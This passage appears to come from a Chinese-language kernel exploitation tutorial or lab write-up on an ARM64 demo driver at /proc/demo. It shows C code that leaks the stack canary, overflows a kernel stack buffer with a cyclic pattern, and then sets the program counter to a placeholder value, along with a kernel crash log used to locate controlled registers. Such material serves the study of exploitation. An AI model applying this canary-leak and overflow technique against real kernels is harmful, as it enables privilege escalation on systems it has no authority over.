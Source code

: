 ```c
    // stack buffer overflow 

    for(int i=0;i<0x200;i+=8){
        *(long long *)(exp+i) = i;
    }

    *(long long *)(exp+128) = canary;

    write(f,exp,0x200);

}
```

结果如下，可以根据被控寄存器的数值确认其位置：

```c
[    6.322050] pc : 0x90
[    6.322570] lr : 0x90
[    6.322656] sp : ffff80000a2bbd80
[    6.322756] x29: 0000000000000088 x28: ffff000002e9ec00 x27: 0000000000000000
[    6.323112] x26: 0000000000000000 x25: 0000000000000000 x24: 0000000000000000
[    6.323312] x23: 0000000000000000 x22: ffff80000a2bbe00 x21: 0000ffffddb4d538
[    6.323500] x20: 00000000000000a0 x19: 0000000000000098 x18: 0000000000000000
[    6.323684] x17: 0000000000000000 x16: 0000000000000000 x15: 00000000000001c8
[    6.323868] x14: 00000000000001c0 x13: 00000000000001c0 x12: 00000000000001b8
[    6.324054] x11: 00000000000001f8 x10: 00000000000001f0 x9 : 00000000000001e8
[    6.324288] x8 : 00000000000001e0 x7 : 00000000000001d8 x6 : 00000000000001d0
[    6.324472] x5 : ffff80000a2bbed8 x4 : ffff800000e42588 x3 : ffff80000a2bbe50
[    6.324658] x2 : 0000000080000000 x1 : 0000000000000000 x0 : 0000000000000200
```

如控pc和r6：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200];

    int f = open("/proc/demo",O_RDWR);

    // leak canary
    read(f,buf,0x100);
    long long canary =  *(long long *)(buf+128);
    printf("[+] canary: %llx\n",canary);

    // stack buffer overflow 

    for(int i=0;i<0x200;i+=8){
        *(long long *)(exp+i) = i;
    }

    *(long long *)(exp+128) = canary;

    *(long long *)(exp+0x90)  = 0xdeadbeef;
    *(long long *)(exp+0x1d0) = 0x66666666;

    write(f,exp,0x200);
}
```
